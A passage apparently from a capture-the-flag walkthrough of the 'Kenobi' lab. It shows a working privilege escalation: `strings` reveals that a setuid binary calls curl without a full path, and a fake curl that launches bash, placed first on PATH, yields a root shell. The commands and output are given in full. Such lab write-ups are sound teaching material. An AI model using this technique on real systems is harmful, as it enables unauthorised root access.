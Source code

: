 It seems like a piece of custom code running a few functions to get system information. We can use the `strings` command to find readable strings inside the binary.

```bash
kenobi@kenobi:~$ strings /usr/bin/menu
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
__isoc99_scanf
puts
__stack_chk_fail
printf
system
__libc_start_main
__gmon_start__
GLIBC_2.7
GLIBC_2.4
GLIBC_2.2.5
UH-`
AWAVA
AUATL
[]A\A]A^A_
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
.
.
```

We see that the binaries `curl, uname, ifconfig` are called without the full path of the files. eg: `/usr/bin/curl`. We can manipulate `PATH` variables to force the `menu` binary to use our version of one of the above mentioned binaries.

```bash
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/bash > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu 

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:/tmp# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

After we setup the file and the path variables, we simply need to run the `/usr/bin/menu` file and select the function that uses the `curl` command, which is `1`. 

Since the binary runs with root permissions, when we open the bash shell, it opens as the root giving us root privileges.

